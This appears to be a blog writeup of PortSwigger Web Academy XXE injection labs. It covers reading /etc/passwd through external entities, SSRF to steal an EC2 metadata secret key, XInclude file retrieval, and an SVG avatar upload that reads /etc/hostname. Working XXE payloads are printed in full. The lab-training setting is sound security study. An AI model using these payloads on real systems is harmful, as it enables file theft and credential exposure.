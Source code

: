 ```yaml
---
title: (Portswigger/WebAcademy) - XXE Injection
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-10-27 09:00:00 +0200
categories: [Web Application, XXE Injection]
tags: [Notes, Web Application, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the XXE Injection.

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/xxe) Labs, but i do intent do throw other labs and writeups here as well.

What can we do with XXE-based vulnerabilites:
- retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.
- perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.
- exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.
-  retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.

## TOC
- [Intro](#intro)
  - [TOC](#toc)
- [Exploiting XXE using external entities to retrieve files](#exploiting-xxe-using-external-entities-to-retrieve-files)
- [Exploiting XXE to perform SSRF attacks](#exploiting-xxe-to-perform-ssrf-attacks)
- [Exploiting XInclude to retrieve files](#exploiting-xinclude-to-retrieve-files)
- [Exploiting XXE via image file upload](#exploiting-xxe-via-image-file-upload)

# Exploiting XXE using external entities to retrieve files

>  This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
> 
> To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file. 

Checking the instructions, we're supposed to check the `Check stock` feature, so let's do that and have Burp running in the background.

![picture 88](/assets/images/777853f2dca23553816522d04d499702489586634bc4de129e2bdf70d3766e5a.png)  

That's the payload that will be used:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId>
<storeId>&xxe;</storeId>
</stockCheck>
```

![picture 89](/assets/images/053e784ba1e648de41b08fba2ec4610c18c15ce14dcb2c2af0f8ce5d95035cf5.png)  

And we'we got the contents of `/etc/passwd` back!

# Exploiting XXE to perform SSRF attacks
>  This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
> 
> The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
> 
> To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

We have to try to achieve SSRF, so let's start with checking the `Check stock` feature:

![picture 90](/assets/images/954e7739686c3328c8370ba4d699b7be4603e8a687486765b6ee9ddfed757e5a.png)  

Let's try to exploit SSRF using XXE Vulnerability

![picture 91](/assets/images/0394209e54deae27e40549d819691a9e716e94382d306b8c260b8c61af411b0e.png)  

We can see that we get `latest` return which is folder. We can get to admin-key in few iterations:

![picture 92](/assets/images/80feda92882deb816f18bd4596a3de7ad755e74716a018c78ac6191323647fa3.png)  

As soon as we reach the secret access key, lab will get solved.

# Exploiting XInclude to retrieve files
>  This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
> 
> Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
> 
> To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file. 

We know that `Check stock` is vulnerable, so let's use it and check the request in Burp.

![picture 93](/assets/images/92e4e0d678e7eac3acb0c69e6884c66336072e52d5fd3fc65031546eab16bb12.png)  

We will inject the payload inthe the `productId` value:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

![picture 94](/assets/images/a14b874d3954970e5e0dedb5534e5b9dd79fccc6a11b3e7e2f5e01554e716a38.png)  

Lab has been solved!

# Exploiting XXE via image file upload

>  This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
> 
> To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 

In this lab we have to upload malicious SVG as avatar. We have to create SVG File beforehand:

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

Save that as SVG and upload as avatar:
![picture 95](/assets/images/642512d15ef090c1e7f78f1748b3184d40208340be8b5a9b9a49bac98dc4fe09.png)  

When checking the avatar on the post, image with file contents should appear.

![picture 96](/assets/images/fc2ef080d5dac7ee1a32779ca83d54084849da6c40999cd7f1ccb3148b141721.png)  

Submit hostname as solution in order to solve the lab.